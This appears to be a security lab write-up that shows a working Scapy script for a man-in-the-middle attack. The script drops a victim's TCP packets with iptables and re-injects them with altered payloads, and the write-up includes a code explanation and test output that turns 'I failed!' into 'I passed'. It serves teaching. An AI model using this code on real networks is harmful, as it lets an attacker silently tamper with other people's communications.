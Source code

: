 ```python

os.system(f"iptables -A FORWARD -s {SRC_IP} -p tcp -m string --string \"{args.find}\" --algo kmp -j DROP")

def modify(pkt):
    if pkt.haslayer(IP) and pkt.haslayer(TCP) and pkt[IP].src == SRC_IP:
        if pkt[TCP].payload:
            raw = pkt[TCP].payload.load
            if FIND in raw:
                new_raw = raw.replace(FIND, REPLACE)
                new_pkt = IP(src=pkt[IP].src, dst=pkt[IP].dst) /                           TCP(sport=pkt[TCP].sport, dport=pkt[TCP].dport,
                              seq=pkt[TCP].seq, ack=pkt[TCP].ack,
                              flags=pkt[TCP].flags) / new_raw
                del new_pkt[IP].chksum
                del new_pkt[TCP].chksum
                send(new_pkt, verbose=0)

sniff(filter=f"tcp and src host {SRC_IP} and port 1234", prn=modify, store=0)
```

### 🔍 Deep Code Explanation

- **argparse setup**: Reads command-line arguments for source IP, string to find, and replacement string.
- **FIND/REPLACE encoding**: Converts strings into bytes to match TCP payload format.
- **Padding**: Ensures replacement strings don’t change payload length (to preserve TCP integrity).
- **iptables**: Drops original packets that contain the target string, preventing duplicate delivery.
- **modify(pkt)**:
  - Checks for IP and TCP layers.
  - Verifies the packet originates from the victim.
  - Reads the raw TCP payload and performs the substitution.
  - Constructs a new packet with original headers and modified payload.
  - Deletes checksums so Scapy recalculates them correctly.
  - Sends the altered packet on the wire.
- **sniff()**: Monitors traffic in real time for TCP packets from the victim on port 1234.

### Test Result
From malicious router:
```bash
python3 modifier.py --src 10.9.0.5 -f "I failed!" -r "I passed"
``` 

From victim:
```bash
echo "I failed!" | nc 192.168.60.5 1234
```

Server receives:
```
I passed
```
